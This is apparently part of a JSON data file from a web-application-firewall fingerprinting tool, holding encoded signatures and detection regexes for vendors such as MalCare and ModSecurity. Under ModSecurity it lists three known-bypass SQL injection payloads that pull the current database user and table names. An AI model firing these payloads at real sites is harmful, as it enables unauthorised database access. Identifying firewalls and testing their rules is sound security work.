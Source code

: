                     "e120:RVZXum60OEhCWKpAYKYPkoJzWOpohM4IiUYMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "7ae5:RVZXum60OEhCWKpAYKYPkoJzWOtohM4JiUcMr2RXg1uQJLX3uhdOn9htOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "6bf2:RVZXum60OEhCWapAYKYPkoJzWOtohM4JiUcMr2RXg1uQJbX3uhdOn9htOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "1db3:RVZXum60OEhCWKpAYKYPkoJzWOpohM4JiUcMr2RXg1uQJLX3uhdOn9htOj+hX7AB16FcPxJPdLsXo2tKaK99n+i6c4RmkgI2FZjxtDtAeq+c36A4chS1XaTC",
                    "fcbb:RVZXum60OEhCWapAYKYPkoJzWOtohM4IiUYMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "d1b6:RVZXum60OEhCWKpAYKYPkoJzWOpohM4IiUYMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTD",
                    "8b30:RVZXum60OEhCWKpAYKYPkoJyWOpohM4IiUYMrmRWg1qQJLX2uhZOnthsOj6hXrAA16BcPhJOdLoXomtKaK59nui7c4RmkgI2FZjxtDtAeq+c3qA4chW1XaTD",
                    "8db8:RVZXum60OEhCWKpAYKYPkoJyWOpohM4IiUYMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTD",
                    "8900:RVZXum60OEhCWapAYKYPkoJzWOtohM4JiUcMr2RXg1uQJLX3uhdOn9htOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTD",
                    "677e:RVZXum60OEhCWapAYKYPkoJzWOpohM4JiUcMr2RXg1uQJLX3uhdOn9htOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "a13a:RVZXum60OEhCWKpAYKYPkoJzWOtohM4JiUcMr2RXg1uQJLX3uhdOnthtOj+hXrAB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "579e:RVZXum60OEhCWKpAYKYPkoJzWOpohM4JiUcMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "82b4:RVZXum60OEhCWapAYKYPkoJzWOtohM4JiUcMr2RXg1uQJLX3uhdOn9htOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A5chW1XaTD",
                    "22e4:RVZXum60OEhCWapAYKYPkoJzWOtohM4JiUcMr2RXg1uQJLX3uhZOnthsOj6hXrAA16BcPhJOdLoXo2tKaK99n+i6c4RmkgI2FZjxtDtAeq+c36A4chS1XaTC",
                    "bd0e:RVZXum60OEhCWapAYKYPk4JzWOtohM4JiUcMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTD",
                    "8976:RVZXum60OEhCWKpAYKYPkoJzWOtohM4JiUcMr2RXg1uQJLX3uhdOnthtOj+hX7AB16FcPxJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq+c36A4chW1XaTC",
                    "e34c:RVZXum60OEhCWapAYKYPkoJyWOpohM4IiUYMr2RWg1qQJLX2uhdOn9htOj+hX7AB16FcPxJPdLsXomtKaK59nui6c4RmkgI2FZjxtDtAeq+c3qA4chS1XKTC"
                ]
            },
            "malcare": {
                "company": "Inactiv",
                "name": "MalCare",
                "regex": "Blocked because of Malicious Activities|Firewall(<[^>]+>)*powered by(<[^>]+>)*MalCare",
                "signatures": [
                    "def2:RVZXum60OEhCWKpAYKYPkoJyWOpohM4IiUYMrmRWg1qQJLX2uhdOnthtOj+hXrAB16FcPxJPdLsXomtKaK59nui7c4RmkgI2FZjxtDtAeq6c3qA4chS1XKTC"
                ]
            },
            "modsecurity": {
                "company": "Trustwave",
                "name": "ModSecurity",
                "regex": "(?i)Server:.+mod_security|This error was generated by Mod_Security|/modsecurity\\-errorregex/|One or more things in your request were suspicious|rules of the mod_security module|mod_security rules triggered|Protected by Mod Security|HTTP Error 40\\d\\.0 - ModSecurity Action|40\\d ModSecurity Action|ModSecurity IIS \\(\\d+bits\\)</td>",
                "bypass_known" : {"SQLi1" : "0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user",
                                "SQLi2" : "1 AND (select DCount(last(username)&after=1&after=1) from users where username='ad1min')",
                                "SQLi3" : "%0Aselect%200x00%2C%200x41%20not%20like%2F*%2100000table_name*%2F%2C3%20from%20information_schema.tables%20limit%201"},
                "signatures": [
                    "46d5:RVZXum60OEhCWapAYKYPkoJyWOpohM4JiUcMr2RXg1uQJLX2uhdOnthtOj+hX7AB16FcPhJPdLsXomtKaK59n+i6c4RmkgI2FZjxtDtAeq6c36A4chW1XaTD",
                    "1ece:RVZXum61OEhCWapBYKcPk4JzWOpohc4JiUcMr2RXg1uQJbX3uhdOn9htOj+hX7AB16FcPhJPdLsXo2tKaK99n+i7c4RmkgI2FZjxtDtAeq6c36A4chW1XaTD",